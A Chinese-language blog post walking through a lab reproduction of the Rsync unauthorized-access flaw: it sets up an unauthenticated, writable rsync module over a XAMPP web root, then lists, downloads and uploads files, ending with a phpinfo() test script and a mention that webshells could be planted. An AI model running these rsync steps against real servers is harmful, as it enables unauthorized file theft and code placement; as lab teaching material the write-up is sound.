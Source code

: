 ```yaml
---
layout: post_layout
title: Rsync 未授权访问漏洞复现
time: 2019年05月28日 星期二
location: 杭州
pulished: true
excerpt_separator: "### 1 漏洞原理"
---
```

### 0 背景

---

未授权访问漏洞，指需要授权的地址、页面缺乏认证，导致任意用户可以直接访问，引发的问题轻则敏感信息泄露，重则命令执行。

Rsync，linux 下一款远程同步软件，能同时同步多台计算机的文件及目录，并能保持源文件的**权限**、时间、软硬连接等附加信息。

### 1 漏洞原理

---

#### 1. 可读

Rsync 未配置认证用户名密码，导致任意用户可以查看目录、下载文件。

客户端命令：

>rsync [-avz] [--port=xxx] IP::[目录/文件] [目录]

-a --archive 归档模式，表示递归传输并保持文件属性。

-v 显示 rsync 过程中详细信息。

-z 传输时进行压缩提高效率。

最常用的选项组合是 "-avz"，即压缩和显示部分信息，并以归档模式传输。

--port 连接 daemon 时使用的端口号，**默认为873端口**。

IP 为服务器 ip，:: 后跟目录则显示目录列表，跟目录+文件则下载该文件。

最后的目录为下载到的本地目录。

示例：

>rsync -avz --port=12345 192.168.1.111::test/index.php /home/user

该命令通过12345端口将 192.168.1.111 中 test/index.php 文件下载到了本地的 /home/user 中。

#### 2. 可写

若 rsync 配置文件中关闭了只读选项，即 "read only = no",则可以对服务器进行文件上传。可以上传带有777权限的 webshell 或者可以命令执行的 php 脚本。

客户端命令：

>rsync [-avz] [--port=xxx] [目录+文件] IP::[目录]

参数同上，第一处目录+文件为本地待上传的文件，第二处目录为上传目录。

### 2 漏洞复现

---

#### 1. 环境准备

* 一台 CentOS 7 64 位的虚拟机。

* Xmapp 安装包。

#### 2. 复现步骤

>1. 将 CentOS 克隆两份，一份为 server，一份为 client。
>2. 在 CentOS server 上安装 rsync，安装 xampp，将rsync的默认目录设置为 xampp 的网站根目录。
>3. 在 CentOS client 上安装 rsync，下载网站的 index.php；写一个测试用的 test.php，上传至网站根目录并访问。

具体如下：

1.CentOS 连接网络

刚安装的 CentOS 不能连接网络，需要更改网卡配置。（CentOS 可以连网则跳过该步骤）

>su
>vi /etc/sysconfig/network-scripts/ifcfg-ens33

按i → 将 ONBOOT=no 改为 ONBOOT=yes → 按Esc → :wq

在物理机中打开 cmd，运行

>net start "Vmware DHCP Service"
>net start "Vmware NAT Service"

再进入 CentOS，输入

>service network restart
>ping www.baidu.com

正常访问网络。

2.安装 rsync

>yum install rsync -y

3.配置 rsync

>vi /etc/rsyncd.conf

配置基本的信息：

```
uid = root
gid = root
use chroot = yes
max connections = 4
exclude = lost+found/
transfer logging = yes
timeout = 900
ignore nonreadable = yes
dont compress = .gz .tgz .zip .z .Z .rpm .deb .bz2
[test] # 可自定义的标签名
	path = /home/ # 客户端同步的服务器默认目录
	comment = this is a test
ignore errors
read only = no # 设置是否只读
```

此处为了测试，不再配置认证用户名及密码。正确的操作是在这时添加用户名及密码。

4.安装 xmapp

访问 xampp [官网](https://www.apachefriends.org/zh_cn/index.html) ,下载 for Linux 的最新版本 xampp 的 .run 文件。下载完成后上传至服务器的 /opt/ 目录下。

或者在服务的 /opt/ 目录下直接输入命令

>wget https://www.apachefriends.org/xampp-files/7.3.5/xampp-linux-x64-7.3.5-1-installer.run

给该文件提权

>chmod -R 755 xampp-linux-x64-7.3.5-1-installer.run

运行安装 xmapp

>./xampp-linux-x64-7.3.5-1-installer.run

安装完成后启动 xampp

>/opt/lampp/lampp start

此时，网站的根目录为 /opt/lampp/htdocs/

5.更改 rsync 默认目录

>vi /etc/rsyncd.conf

将 path = /home/ 改为 path = /opt/lampp/htdocs/

6.启动 rsync

>systemctl start rsyncd

7.在 CentOS client 上，连接服务器的 rsync

>rsync 192.168.xxx.xxx::

发现不能访问，需要关闭服务器的防火墙

CentOS 默认的防火墙为 firewall

>systemctl stop firewalld.service

客户端即可访问

![访问成功](imgs\2019-05-28-Rsync_Unauthorized_Access\1.png)

客户端访问 test 目录

>rsync 192.168.xxx.xxx::test

![访问目录](imgs\2019-05-28-Rsync_Unauthorized_Access\2.png)

客户端下载 index.php 文件到本地的 /home/ 目录中

>rsync 192.168.xxx.xxx::test/index.php /home/

![下载文件](imgs\2019-05-28-Rsync_Unauthorized_Access\3.png)

在客户端中写一个包含了 phpinfo() 的脚本

```
<?php
    phpinfo();
?>
```

![php 脚本](imgs\2019-05-28-Rsync_Unauthorized_Access\4.png)

将脚本上传至服务器

>rsync a.php 192.168.xxx.xxx::test

发现上传权限不足，检查 /opt 目录的权限也没有问题，最后发现需要在服务器中关闭 enforce 模式

```
[root@localhost]# getenforce
Enforcing

[root@localhost]# setenforce 0
关闭 enforce 模式

[root@localhost]# getenforce
Permissive
```

重新上传，上传文件成功，浏览器访问 192.168.xxx.xxx/a.php

![脚本上传成功](imgs\2019-05-28-Rsync_Unauthorized_Access\5.png)
